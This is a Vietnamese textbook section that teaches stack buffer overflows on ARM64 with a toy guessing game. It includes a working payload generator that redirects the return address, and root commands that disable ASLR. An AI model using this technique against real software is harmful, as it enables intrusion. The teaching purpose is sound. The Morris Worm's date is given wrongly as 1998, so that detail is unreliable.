

## 9.10. Thực tế: Buffer Overflow  

Ngôn ngữ C không thực hiện việc kiểm tra giới hạn mảng (*array bounds checking*) một cách tự động. Việc truy cập bộ nhớ nằm ngoài phạm vi của một mảng là vấn đề nghiêm trọng và thường dẫn đến các lỗi như **segmentation fault**. Tuy nhiên, một kẻ tấn công tinh vi có thể chèn mã độc nhằm cố ý vượt quá giới hạn của mảng (còn gọi là **buffer**) để buộc chương trình thực thi theo cách không mong muốn. Trong trường hợp xấu nhất, kẻ tấn công có thể chạy mã cho phép chúng giành được **root privilege** (quyền quản trị cao nhất), hoặc quyền truy cập ở cấp hệ điều hành vào hệ thống máy tính.  

Một phần mềm khai thác (*exploit*) lợi dụng sự tồn tại của một lỗi **buffer overrun** đã biết trong chương trình được gọi là **buffer overflow exploit**.  

Trong phần này, chúng ta sẽ sử dụng **GDB** và ngôn ngữ assembly để phân tích chi tiết cơ chế của một buffer overflow exploit. Trước khi đọc chương này, bạn nên tham khảo chương nói về [GDB để kiểm tra mã assembly](../C3-C_debug/gdb_assembly.html#_debugging_assembly_code).  

### 9.10.1. Các ví dụ nổi tiếng về Buffer Overflow  

Các **buffer overflow exploit** xuất hiện từ những năm 1980 và vẫn là một mối đe dọa lớn đối với ngành công nghiệp máy tính cho đến đầu những năm 2000. Mặc dù nhiều hệ điều hành hiện đại đã có các cơ chế bảo vệ chống lại những cuộc tấn công buffer overflow đơn giản nhất, nhưng các lỗi lập trình bất cẩn vẫn có thể khiến các chương trình hiện đại dễ bị tấn công. Gần đây, các lỗ hổng buffer overflow đã được phát hiện trong Skype¹, Android², Google Chrome³ và nhiều phần mềm khác.  

Dưới đây là một số ví dụ lịch sử đáng chú ý về buffer overflow exploit:  

**The Morris Worm**  
:   **The Morris Worm**⁴ được phát tán vào năm 1998 trên ARPANet từ MIT (nhằm che giấu việc nó được viết bởi một sinh viên của Cornell) và đã khai thác một lỗ hổng **buffer overrun** tồn tại trong **Unix finger daemon** (`fingerd`). Trong Linux và các hệ thống tương tự Unix khác, **daemon** là một loại tiến trình chạy liên tục ở chế độ nền, thường thực hiện các tác vụ dọn dẹp hoặc giám sát. Daemon `fingerd` trả về báo cáo thân thiện về một máy tính hoặc người dùng. Điều quan trọng là con sâu này có cơ chế tự sao chép, khiến nó được gửi nhiều lần đến cùng một máy tính, làm hệ thống chậm đến mức không thể sử dụng. Mặc dù tác giả tuyên bố rằng con sâu chỉ nhằm mục đích nghiên cứu vô hại, nhưng cơ chế tự sao chép đã giúp nó lan truyền dễ dàng và khó bị loại bỏ. Trong những năm sau đó, các loại sâu khác cũng sử dụng buffer overflow exploit để truy cập trái phép vào hệ thống, ví dụ như **Code Red (2001)**, **MS-SQLSlammer (2003)** và **W32/Blaster (2003)**.  

**AOL Chat Wars**  
:   David Auerbach⁵, một cựu kỹ sư của Microsoft, đã kể lại trải nghiệm của mình với một lỗi buffer overflow trong quá trình tích hợp **Microsoft Messenger Service (MMS)** với **AOL Instant Messenger (AIM)** vào cuối những năm 1990. Thời điểm đó, AIM là dịch vụ nhắn tin nhanh phổ biến nhất. Microsoft muốn chen chân vào thị trường này bằng cách thiết kế một tính năng trong MMS cho phép người dùng MMS trò chuyện với “buddies” trên AIM. Không hài lòng, AOL đã vá máy chủ của họ để MMS không thể kết nối. Các kỹ sư Microsoft tìm ra cách để MMS giả mạo tin nhắn giống như AIM gửi tới máy chủ AOL, khiến AOL khó phân biệt tin nhắn từ MMS và AIM. AOL đáp trả bằng cách thay đổi định dạng tin nhắn của AIM, và các kỹ sư MMS lại chỉnh sửa để bắt chước định dạng mới. “Cuộc chiến chat” này tiếp diễn cho đến khi AOL bắt đầu sử dụng một lỗi buffer overflow *ngay trong client của họ* để xác minh tin nhắn đến từ AIM. Vì MMS không có cùng lỗ hổng này, cuộc chiến kết thúc với phần thắng thuộc về AOL.  

### 9.10.2. Cái nhìn đầu tiên: Trò chơi đoán số (The Guessing Game)  

Để giúp bạn hiểu cơ chế của một cuộc tấn công buffer overflow, chúng tôi cung cấp một chương trình thực thi đơn giản cho phép người dùng chơi trò đoán số với máy tính. Tải file thực thi `secret` tại [liên kết này](_attachments/secretARM64.tar.gz) và giải nén bằng lệnh `tar`:

```
$ tar -xzvf secretARM64.tar.gz
```

Dưới đây là nội dung file `main.c` ([main.c](_attachments/main.c)), tệp chính của chương trình thực thi:


```c
#include <stdio.h>
#include <stdlib.h>
#include "other.h"

int endGame(void){
  printf("You win!\n");
  exit(0);
}

int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%s", buf);
  guess = atoi(buf);
  secret=getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%s", buf);
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}

int main(void) {
  int res = playGame();
  return res;
}
```

Trò chơi này yêu cầu người chơi nhập trước một số bí mật (*secret number*) và sau đó là một chuỗi bí mật (*secret string*) để chiến thắng. File header `other.h` chứa định nghĩa của các hàm `getSecretCode` và `calculateValue`, nhưng chúng ta không có file này. Vậy làm thế nào để người chơi thắng? Thử brute force sẽ mất quá nhiều thời gian. Một chiến lược khác là phân tích file thực thi `secret` bằng GDB và bước qua mã assembly để tìm ra số và chuỗi bí mật. Quá trình phân tích mã assembly để hiểu cách hoạt động của chương trình được gọi là **reverse engineering**. Những người đã quen với GDB và đọc assembly có thể dùng GDB để reverse engineer số và chuỗi bí mật.  

Tuy nhiên, vẫn còn một cách khác, tinh vi hơn, để chiến thắng.  

### 9.10.3. Xem xét kỹ hơn (Under the C)  

Chương trình chứa một lỗ hổng **buffer overrun** tiềm ẩn tại lần gọi `scanf` đầu tiên. Để hiểu chuyện gì đang xảy ra, chúng ta sẽ kiểm tra mã assembly của hàm `main` bằng GDB. Đồng thời, chúng ta sẽ đặt một breakpoint tại địa chỉ `0x0000aaaaaaaaa92c`, đây là địa chỉ của lệnh ngay trước khi gọi `scanf` (nếu đặt breakpoint tại địa chỉ của `scanf` thì chương trình sẽ dừng *bên trong* lời gọi `scanf`, chứ không phải trong `main`). Sau đó, dùng lệnh `ni` để thực thi từng lệnh một.  

```
Dump of assembler code for function playGame:
    0x0000aaaaaaaaa908 <+0>:   stp x29, x30, [sp, #-48]!
    0x0000aaaaaaaaa90c <+4>:   mov x29, sp
    0x0000aaaaaaaaa910 <+8>:   mov w0, #0x3
    0x0000aaaaaaaaa914 <+12>:  str w0, [x29, #44]
    0x0000aaaaaaaaa918 <+16>:  adrp    x0, 0xaaaaaaaaa000
    0x0000aaaaaaaaa91c <+20>:  add x0, x0, #0xac0
    0x0000aaaaaaaaa920 <+24>:  bl  0xaaaaaaaaa730 <puts@plt>
    0x0000aaaaaaaaa924 <+28>:  add x1, x29, #0x18
    0x0000aaaaaaaaa928 <+32>:  adrp    x0, 0xaaaaaaaaa000
    0x0000aaaaaaaaa92c <+36>:  add x0, x0, #0xad8
=> 0x0000aaaaaaaaa930 <+40>:   bl  0xaaaaaaaaa740 <__isoc99_scanf@plt>
```


### 9.10.4. Buffer Overflow: Lần thử đầu tiên (First Attempt)  

Tiếp theo, hãy thử nhập chuỗi  
`12345678901234567890123456789012345`:

```
$ ./secret
Enter secret number:
12345678901234567890123456789012345
You are so wrong!
Bus error
$ echo $?
139
```

Thú vị đấy! Lần này chương trình bị crash với lỗi **bus error** (một dạng lỗi bộ nhớ khác), và trả về mã thoát (*return code*) 139. **Hình 3** cho thấy *call stack* của `main` ngay sau khi gọi `scanf` với chuỗi đầu vào mới này.



**Hình 3.** *Call stack* ngay sau khi gọi `scanf` với đầu vào `12345678901234567890123456789012345`

Chuỗi nhập này dài đến mức không chỉ ghi đè lên giá trị `x29` đã lưu tại địa chỉ `0xeed8`, mà còn tràn xuống ghi đè cả **return address** bên dưới *stack frame* của `main`. Hãy nhớ rằng khi một hàm trả về, chương trình sẽ cố gắng tiếp tục thực thi tại địa chỉ được lưu trong **return address**. Trong ví dụ này, sau khi thoát khỏi `main`, chương trình cố gắng tiếp tục tại địa chỉ `0xffff00353433`, vốn không tồn tại. Vì vậy, chương trình bị crash với lỗi **bus error**.

Chạy lại chương trình trong GDB (`input.txt` chứa chuỗi nhập ở trên) sẽ cho thấy rõ điều này:


```
$ gdb secret
(gdb) break *0x0000aaaaaaaaa934
(gdb) run < input.txt
(gdb) ni
(gdb) x /64bx $sp
0xffffffffeec0: 0xf0    0xee    0xff    0xff    0xff    0xff    0x00    0x00
0xffffffffeec8: 0xf0    0xa9    0xaa    0xaa    0xaa    0xaa    0x00    0x00
0xffffffffeed0: 0x10    0xef    0xff    0xff    0xff    0xff    0x00    0x00
0xffffffffeed8: 0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38
0xffffffffeee0: 0x39    0x30    0x31    0x32    0x33    0x34    0x35    0x36
0xffffffffeee8: 0x37    0x38    0x39    0x30    0x31    0x32    0x33    0x34
0xffffffffeef0: 0x35    0x36    0x37    0x38    0x39    0x30    0x31    0x32
0xffffffffeef8: 0x33    0x34    0x35    0x00    0xff    0xff    0x00    0x00
(gdb) n
Single stepping until exit from function playGame,
which has no line number information.
You are so wrong!
0x0000aaaaaaaaa9f0 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x0000ffff00353433 in ?? ()
```

Hãy chú ý rằng chuỗi nhập của chúng ta đã vượt quá giới hạn khai báo của mảng `buf`, ghi đè lên tất cả các giá trị khác được lưu trên stack. Nói cách khác, chuỗi này đã tạo ra một **buffer overrun** và làm hỏng *call stack*, khiến chương trình bị crash. Quá trình này còn được gọi là **smashing the stack**.

### 9.10.5. Buffer Overflow tinh vi hơn: Lần thử thứ hai (A Smarter Buffer Overflow: Second Attempt)  

Ví dụ đầu tiên đã *smash the stack* bằng cách ghi đè giá trị thanh ghi `x29` đã lưu và **return address** của `main` bằng dữ liệu rác, khiến chương trình bị crash. Một kẻ tấn công chỉ muốn làm chương trình sập thì đến đây đã đạt mục tiêu.  

Tuy nhiên, mục tiêu của chúng ta là đánh lừa trò chơi đoán số để nó trả về giá trị 0, báo hiệu rằng chúng ta đã thắng. Chúng ta sẽ làm điều này bằng cách ghi đè *call stack* bằng dữ liệu có ý nghĩa hơn là chỉ rác. Ví dụ, ta có thể ghi đè stack sao cho **return address** được thay bằng địa chỉ của hàm `endGame`. Khi đó, khi chương trình cố gắng trả về từ `main`, nó sẽ thực thi `endGame` thay vì bị crash.

Để tìm địa chỉ của `endGame`, hãy mở lại `secret` trong GDB:

```
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
    0x0000aaaaaaaaa8ec <+0>:   stp x29, x30, [sp, #-16]!
    0x0000aaaaaaaaa8f0 <+4>:   mov x29, sp
    0x0000aaaaaaaaa8f4 <+8>:   adrp    x0, 0xaaaaaaaaa000
    0x0000aaaaaaaaa8f8 <+12>:  add x0, x0, #0xab0
    0x0000aaaaaaaaa8fc <+16>:  bl  0xaaaaaaaaa730 <puts@plt>
    0x0000aaaaaaaaa900 <+20>:  mov w0, #0x0
    0x0000aaaaaaaaa904 <+24>:  bl  0xaaaaaaaaa6d0 <exit@plt>
```

Quan sát thấy `endGame` bắt đầu tại địa chỉ `0x0000aaaaaaaaa8ec`. [Hình 4](#finalExploita64) minh họa một ví dụ *exploit* buộc `secret` chạy hàm `endGame`.


**Hình 4.** Một chuỗi mẫu có thể buộc `secret` thực thi hàm `endGame`

Về cơ bản, chuỗi này gồm 32 byte dữ liệu rác, theo sau là **return address**. Một lần nữa, vì ARM64 theo mặc định là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte trong **return address** sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình dưới đây minh họa cách một kẻ tấn công có thể tạo ra *exploit* này:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x00\x00" /*last 2 bytes of junk*/
"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```


Ký tự `\x` trước mỗi số cho biết số đó được định dạng dưới dạng biểu diễn **hexadecimal** (thập lục phân) của một ký tự. Sau khi định nghĩa `ebuff[]`, hàm `main` chỉ đơn giản in nó ra, từng ký tự một.  
Để tạo ra chuỗi byte tương ứng, hãy biên dịch và chạy chương trình này như sau:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

Để dùng `exploit` làm đầu vào cho `scanf`, chỉ cần chạy `secret` với `exploit`.  
Để exploit hoạt động trên Raspberry Pi, hãy nhập các lệnh sau với quyền **root** (chúng ta sẽ giải thích sau ví dụ):

```
$ sudo su
[sudo] password for pi:
root@pi# echo "0" > /proc/sys/kernel/randomize_va_space
root@pi# exit
$
```

Lệnh `sudo su` đưa bạn vào chế độ **root** trên Raspberry Pi. Khi được yêu cầu nhập mật khẩu, hãy nhập mật khẩu của bạn (giả sử bạn có quyền root trên Raspberry Pi). Ngay khi nhập mật khẩu, các lệnh tiếp theo sẽ được gõ ở chế độ root. Lưu ý rằng dấu nhắc lệnh sẽ thay đổi khi ở chế độ root (trông như `root@pi#`).

Lệnh `echo` sẽ ghi đè nội dung của file `/proc/sys/kernel/randomize_va_space` bằng giá trị `0`. Tiếp theo, lệnh `exit` đưa bạn trở lại chế độ người dùng bình thường.

Bây giờ, nhập lệnh sau tại dấu nhắc:

```
$ ./secret < exploit
Enter secret number:
You are so wrong!
You win!
```

Chương trình in ra `"You are so wrong!"` vì chuỗi trong `exploit` *không* phải là số bí mật. Tuy nhiên, chương trình cũng in ra `"You win!"`.  
Hãy nhớ rằng mục tiêu của chúng ta là đánh lừa chương trình trả về giá trị `0`. Trong một hệ thống lớn hơn, nơi khái niệm “thành công” được theo dõi bởi một chương trình bên ngoài, điều quan trọng nhất thường là giá trị trả về của chương trình, chứ không phải những gì nó in ra.

Kiểm tra giá trị trả về:

```
$ echo $?
0
```

Exploit của chúng ta đã thành công! Chúng ta đã thắng trò chơi.

### 9.10.6. Bảo vệ chống lại Buffer Overflow  

Ví dụ trên đã thay đổi **control flow** (luồng điều khiển) của chương trình thực thi `secret`, buộc nó trả về giá trị `0` (thành công). Chúng ta phải thực hiện điều này theo một cách khá “lắt léo” do các cơ chế bảo vệ stack mà ARM và GCC tích hợp để chống lại kiểu tấn công này.  

Tuy nhiên, **buffer overflow exploit** có thể gây ra thiệt hại thực sự trên các hệ thống cũ. Một số hệ thống máy tính cũ thậm chí còn *thực thi* các byte từ bộ nhớ stack. Nếu kẻ tấn công đặt các byte tương ứng với lệnh assembly lên *call stack*, CPU sẽ diễn giải chúng như các lệnh *thật*, cho phép kẻ tấn công buộc CPU thực thi *bất kỳ mã tùy ý nào mà họ muốn*.  

May mắn thay, các hệ thống máy tính hiện đại áp dụng nhiều chiến lược để khiến việc khai thác buffer overflow trở nên khó khăn hơn:

- **Stack randomization**: Hệ điều hành cấp phát địa chỉ bắt đầu của stack tại một vị trí ngẫu nhiên trong bộ nhớ stack, khiến vị trí/kích thước của *call stack* thay đổi giữa các lần chạy chương trình. Khi chúng ta ghi đè file `/proc/sys/kernel/randomize_va_space` bằng giá trị `0`, chúng ta đã tạm thời tắt stack randomization trên Raspberry Pi (file này sẽ trở lại giá trị ban đầu khi khởi động lại). Nếu không tắt stack randomization, nhiều máy chạy cùng một chương trình sẽ có địa chỉ stack khác nhau. Các hệ thống Linux hiện đại sử dụng stack randomization như một biện pháp chuẩn. Tuy nhiên, một kẻ tấn công kiên trì có thể brute force bằng cách thử nhiều địa chỉ khác nhau. Một mẹo phổ biến là dùng **NOP sled** (một dãy dài các lệnh NOP) trước đoạn mã exploit. Lệnh NOP (`0x90`) không làm gì ngoài việc tăng **program counter** sang lệnh tiếp theo. Miễn là CPU bắt đầu thực thi ở đâu đó trong NOP sled, nó sẽ trượt đến đoạn mã exploit phía sau. Bài viết *Smashing the Stack for Fun and Profit* của Aleph One⁶ mô tả chi tiết cơ chế này.

- **Stack corruption detection**: Một biện pháp khác là phát hiện khi stack bị hỏng. Các phiên bản GCC gần đây sử dụng một **stack protector** gọi là **canary** đóng vai trò như một “vệ sĩ” giữa buffer và các phần tử khác của stack. Canary là một giá trị được lưu ở vùng bộ nhớ không thể ghi, có thể so sánh với giá trị được đặt trên stack. Nếu canary “chết” trong quá trình chạy chương trình, chương trình sẽ biết mình đang bị tấn công và dừng lại với thông báo lỗi. Trong ví dụ này, chúng ta đã loại bỏ canary khỏi `secret` bằng cách biên dịch với cờ `-fno-stack-protector` trong GCC. Tuy nhiên, một kẻ tấn công tinh vi có thể thay thế canary trong quá trình tấn công để tránh bị phát hiện.

- **Giới hạn vùng bộ nhớ thực thi**: Trong biện pháp này, mã thực thi chỉ được phép nằm ở một số vùng bộ nhớ nhất định. Nói cách khác, *call stack* sẽ không còn khả năng thực thi. Tuy nhiên, ngay cả biện pháp này cũng có thể bị vượt qua. Trong một cuộc tấn công sử dụng **return-oriented programming** (ROP), kẻ tấn công có thể “cherry-pick” các lệnh trong vùng bộ nhớ thực thi và nhảy từ lệnh này sang lệnh khác để xây dựng exploit. Có nhiều ví dụ nổi tiếng về kỹ thuật này trên mạng, đặc biệt là trong các trò chơi điện tử⁷.


Tuy nhiên, **tuyến phòng thủ tốt nhất luôn là lập trình viên**.  
Để ngăn chặn các cuộc tấn công **buffer overflow** vào chương trình của bạn, hãy sử dụng các hàm C có **length specifier** (chỉ định độ dài) bất cứ khi nào có thể và bổ sung mã để kiểm tra giới hạn mảng (*array bounds checking*). Điều quan trọng là mọi mảng được khai báo phải khớp với độ dài được chỉ định trong length specifier.  

**Bảng 1** liệt kê một số hàm C “xấu” thường dễ bị tấn công buffer overflow, và hàm “tốt” tương ứng nên dùng (giả sử `buf` được cấp phát 12 byte):

| Thay vì | Hãy dùng |
| --- | --- |
| `gets(buf)` | `fgets(buf, 12, stdin)` |
| `scanf("%s", buf)` | `scanf("%12s", buf)` |
| `strcpy(buf2, buf)` | `strncpy(buf2, buf, 12)` |
| `strcat(buf2, buf)` | `strncat(buf2, buf, 12)` |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

**Bảng 1.** Các hàm C với length specifier

Binary `secret2` ([secret2ARM64.tar.gz](_attachments/secret2ARM64.tar.gz)) không còn chứa lỗ hổng buffer overflow. Hàm `playGame` trong binary mới này ([main2.c](_attachments/main2.c)) như sau:

```c
int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%12s", buf); //length specifier được thêm ở đây!
  guess = atoi(buf);
  secret = getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%12s", buf); //length specifier được thêm ở đây!
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}
```

Lưu ý rằng chúng ta đã thêm **length specifier** vào tất cả các lời gọi `scanf`, khiến hàm `scanf` dừng đọc đầu vào sau khi đọc đủ 12 byte đầu tiên. Chuỗi exploit giờ đây không còn làm hỏng chương trình:

```
$ ./secret2 < exploit
Enter secret number:
You are so wrong!
$ echo $?
1
```

Tất nhiên, bất kỳ ai có kỹ năng **reverse engineering** cơ bản vẫn có thể thắng trò chơi đoán số bằng cách phân tích mã assembly. Nếu bạn chưa thử đánh bại chương trình bằng reverse engineering, chúng tôi khuyến khích bạn thử ngay bây giờ.

### Tài liệu tham khảo

1. Mohit Kumar. [Critical Skype Bug Lets Hackers Remotely Execute Malicious Code](https://thehackernews.com/2017/06/skype-crash-bug.html). 2017.  
2. Tamir Zahavi-Brunner. [CVE-2017-13253: Buffer overflow in multiple Android DRM services](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/). 2018.  
3. Tom Spring. [Google Patches 'High Severity' Browser Bug](https://threatpost.com/google-patches-high-severity-browser-bug/128661/). 2017.  
4. Christopher Kelty. [The Morris Worm](https://limn.it/articles/the-morris-worm/) Limn Magazine, Issue 1. Systemic Risk. 2011.  
5. David Auerbach. [Chat Wars: Microsoft vs. AOL](https://nplusonemag.com/issue-19/essays/chat-wars/) NplusOne Magazine, Issue 19. Spring 2014.  
6. Aleph One. [Smashing the Stack for Fun and Profit](http://insecure.org/stf/smashstack.html). 1996.  
7. DotsAreCool. [Super Mario World Credit Warp](https://youtu.be/vAHXK2wut_I) (Ví dụ Nintendo ROP). 2015.  


